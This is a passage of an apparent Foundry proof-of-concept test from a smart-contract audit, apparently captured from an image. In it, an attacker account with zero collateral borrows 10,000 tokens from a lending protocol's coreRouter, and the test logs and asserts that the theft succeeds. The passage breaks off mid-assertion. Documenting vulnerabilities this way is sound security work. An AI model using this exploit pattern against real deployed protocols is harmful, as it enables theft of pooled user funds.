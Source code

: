 ```solidity
        _setupProtocolLiquidity(1_000_000e18);
    }

    // Helper function to supply tokens before testing borrowing
    function _setupProtocolLiquidity(uint256 amount) internal {
        vm.startPrank(deployer);
        address token = supportedTokens[0];
        ERC20Mock(token).mint(deployer, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
        vm.stopPrank();
    }

    // Test that demonstrates the vulnerability
    function test_borrow_without_collateral_vulnerability() public {
        vm.startPrank(attacker);
        console.log("== Starting No Collateral Borrow Vulnerability Test ==");
        console.log("Step 1: Check initial balances and collateral");
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);
        
        // Get the current balance of the attacker and the market
        uint256 initialAttackerBalance = IERC20(token).balanceOf(attacker);
        uint256 initialMarketBalance = IERC20(token).balanceOf(lToken);
        
        // Check attacker's initial collateral (should be 0)
        (, uint256 initialCollateral) = lendStorage.getHypotheticalAccountLiquidityCollateral(
            attacker, 
            LToken(payable(lToken)), 
            0, 
            0
        );
        console.log("Initial Attacker balance:", initialAttackerBalance / 1e18, "tokens");
        console.log("Initial Market balance:", initialMarketBalance / 1e18, "tokens");
        console.log("Initial Collateral:", initialCollateral / 1e18, "tokens");
        assertEq(initialCollateral, 0, "Attacker should start with zero collateral");
        
        // Try to borrow a significant amount (enough to notice but not drain the whole pool)
        uint256 borrowAmount = 10_000e18;
        console.log("Step 2: Attempting to borrow without collateral:", borrowAmount / 1e18, "tokens");
        
        // This should revert in a secure implementation, but due to the vulnerability, it will succeed
        coreRouter.borrow(borrowAmount, token);
        console.log("Borrow call succeeded");
        
        // Verify the attacker received the tokens
        uint256 finalAttackerBalance = IERC20(token).balanceOf(attacker);
        console.log("Step 3: Check post-borrow balances");
        console.log("Final Attacker balance:", finalAttackerBalance / 1e18, "tokens");
        assertEq(
            finalAttackerBalance - initialAttackerBalance,
            borrowAmount,
            "Attacker should receive borrowed tokens despite having no collateral"
        );
        
        // Verify the market's balance decreased
        uint256 finalMarketBalance = IERC20(token).balanceOf(lToken);
        console.log("Final Market balance:", finalMarketBalance / 1e18, "tokens");
        assertEq(
            initialMarketBalance - finalMarketBalance,
            borrowAmount,
```